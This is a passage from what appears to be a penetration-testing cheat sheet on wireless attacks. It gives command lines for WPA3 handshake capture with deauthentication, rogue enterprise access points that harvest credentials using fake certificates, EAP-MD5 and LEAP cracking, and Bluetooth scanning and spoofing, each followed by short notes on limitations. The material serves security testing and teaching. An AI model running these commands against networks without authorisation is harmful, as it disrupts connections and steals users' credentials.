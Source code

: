 **Documentation**: Captive portal attacks trick users into entering credentials on fake login pages.
**Limitations**: Sophisticated users may detect fake portals; HTTPS certificate warnings alert users.

## WPA3 and Modern Wireless Security

### WPA3 Security Assessment
```bash
# WPA3 Network Detection
airodump-ng wlan0mon | grep -i "WPA3\|SAE"              # Identify WPA3 networks

# Dragonfly Handshake Capture (WPA3-Personal)
airodump-ng -c 6 -w wpa3_capture --bssid AA:BB:CC:DD:EE:FF wlan0mon
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon         # Deauth to capture SAE handshake

# WPA3 Vulnerability Research
# Dragonblood attacks (CVE-2019-13456, CVE-2019-13457)
# Side-channel attacks on SAE protocol
```

**Documentation**: WPA3 provides improved security but may have implementation vulnerabilities.
**Limitations**: WPA3 adoption is limited; sophisticated attacks require specific vulnerabilities; stronger than WPA2.

### Enterprise Wireless Security Testing
```bash
# WPA Enterprise (802.1X) Testing
# RADIUS Server Attacks
python eap_hammer.py -i wlan0mon -e "Enterprise_Network"

# Certificate Validation Bypass
hostapd-eaphammer --cert-wizard                         # Generate fake certificates
eaphammer -i wlan0 --channel 6 --auth wpa-eap --essid "Enterprise_Network" --creds

# EAP Method Testing
eapmd5pass -r capture.cap -w wordlist.txt               # EAP-MD5 cracking
asleap -r capture.cap -f wordlist.txt                   # LEAP cracking
```

**Documentation**: Enterprise wireless networks use 802.1X authentication with additional attack vectors.
**Limitations**: Requires certificate validation bypass; modern implementations use strong EAP methods.

## Bluetooth and IoT Wireless Attacks

### Bluetooth Security Testing
```bash
# Bluetooth Device Discovery
hcitool scan                                            # Basic device scan
hcitool inq                                             # Inquiry scan
bluetoothctl scan on                                    # Modern Bluetooth scanning

# Bluetooth Service Discovery
sdptool browse 00:11:22:33:44:55                       # Service discovery
sdptool search --bdaddr 00:11:22:33:44:55 SP           # Search for services

# Bluetooth Attacks
l2ping -c 5 00:11:22:33:44:55                         # L2CAP ping
btscanner -i hci0                                      # Bluetooth scanner
spooftooph -i hci0 -a 00:11:22:33:44:55               # MAC address spoofing

```